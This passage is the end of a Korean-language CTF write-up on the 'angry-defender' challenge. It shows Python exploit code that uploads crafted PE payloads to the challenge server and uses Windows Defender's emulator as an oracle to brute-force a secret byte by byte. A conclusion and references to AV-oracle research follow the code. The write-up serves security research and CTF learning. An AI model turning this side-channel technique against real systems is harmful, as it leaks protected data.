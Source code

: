 ```python
            mov al, byte ptr [ebx]
            cmp al, {what}
            jz b
            int 0x3
            b:
            ''' % (len(c) + 0x10 + index)).format(what=ord(t)))

    a = b + payload + c

    tmpkey = requests.put('http://angry-defender.zajebistyc.tf/cache', data=a).text
    res = requests.get('http://angry-defender.zajebistyc.tf/cache/{tmpkey}'.format(tmpkey=tmpkey))
    if res.status_code == 500:
        print 'wtf[%d]="%s"' % (index, t)


index = 0

import sys

for t in string.printable:
    t = threading.Thread(target=gogo, args=(int(sys.argv[1]), t))
    t.start()

a = raw_input()
```

# 결론

기존에 JavaScript를 통한 AV Oracle은 1번 참고 문헌에 나와있었지만, JavaScript 이외의 방법을 통해 AV Oracle을 하는 방법에 대한 자료는 없다시피 했습니다.

이번 기회에 Windows Defender에서 어떻게 trigger하고, PE Binary를 통해 AV Oracle를 trigger할 수 있는 강력한 방법을 알게 되어서 기분이 좋습니다.

위를 다시 살펴보면 비단 JS나 PE binary가 아니더라도 trigger되는 다양한 부분이 있기 때문에, 이를 공부해서 관련 문제에 대비해보거나 Windows Defender 자체에 대한 이해도를 높이는 것도 좋은 경험일 것으로 생각됩니다. RarVM을 통해서 trigger 하는 방법에 대해서 흥미가 있기 때문에 다음에 취미로 프로젝트를 진행해볼 지도 모르겠습니다.

---

# 참고 문헌

1. ["Let's Make Windows Defender Angry: Antivirus can be an oracle!"](https://speakerdeck.com/icchy/lets-make-windows-defender-angry-antivirus-can-be-an-oracle?slide=17) By icchy from TokyoWesterns
2. ["Windows Offender: Reverse Engineering Windows Defender's Antivirus Emulator"](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf) By Alexei Bulazel